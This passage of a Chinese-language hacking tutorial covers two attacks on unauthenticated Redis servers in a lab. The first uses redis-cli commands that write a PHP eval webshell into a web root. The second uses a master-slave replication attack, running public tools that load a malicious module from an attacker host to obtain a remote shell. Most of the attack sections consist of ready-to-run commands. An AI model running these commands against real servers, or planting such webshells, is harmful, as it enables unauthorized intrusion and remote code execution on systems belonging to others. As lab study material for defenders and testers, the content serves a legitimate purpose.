 ```
        return False
    return False
```
## 三、 利用redis写webshell
当redis权限不高时，并且服务器开着web服务，在redis有web目录写权限时，可以尝试往web路径写webshell

(1)  靶机redis未授权，在攻击机能用redis clinet连接，并未登录验证

(2)  靶机开启web服务，并且知道网站路径，还需要具有文件读写增删改查权限

### 我在靶机上搭建了apache
![图片](https://ae01.alicdn.com/kf/U622f8eaca4ad4598b06686485737a9b7g.png)

我们现在不知道其网站的物理路径，可以尝试目录爆破看下是否存在phpinfo文件，也可以尝试apache的默认路径：/var/www/html/

```
redis-cli -h 192.168.1.154
config set dir /var/www/html 
set xxx "\n\n\n<?php@eval($_POST['c']);?>\n\n\n" 
config set dbfilename webshell.php 
save
```
## 四、 利用主从复制获取shell
	Redis支持主从同步。数据可以从主服务器向任意数量的从服务器上同步，从服务器可以是关联其他从服务器的主服务器。这使得Redis可执行单层树复制。存盘可以有意无意的对数据进行写操作。由于完全实现了发布/订阅机制，使得从数据库在任何地方同步树时，可订阅一个频道并接收主服务器完整的消息发布记录。同步对读取操作的可扩展性和数据冗余很有帮助。

### **利用原理：**
在两个Redis实例设置主从模式的时候，Redis的主机实例可以通过FULLRESYNC同步文件到从机上。

然后在从机上加载so文件，我们就可以执行拓展的新命令了。

1、下载利用脚本：

```
git clone https://github.com/n0b0dyCN/RedisModules-ExecuteCommand
cd RedisModules-ExecuteCommand/
make
git clone https://github.com/Ridter/redis-rce
python redis-rce.py -r 192.168.1.154 -L 192.168.1.153 -f module.so
```
![图片](https://ae01.alicdn.com/kf/U784f58fe665a4237a61a9de8837f9d618.png)

监听一个端口用来接收shell

![图片](https://ae01.alicdn.com/kf/Ue2569399c43a4507b42e0d9bc877a993a.png)

### 相关文章：
Redis 基于主从复制的 RCE 利用方式

[https://paper.seebug.org/975/](https://paper.seebug.org/975/)
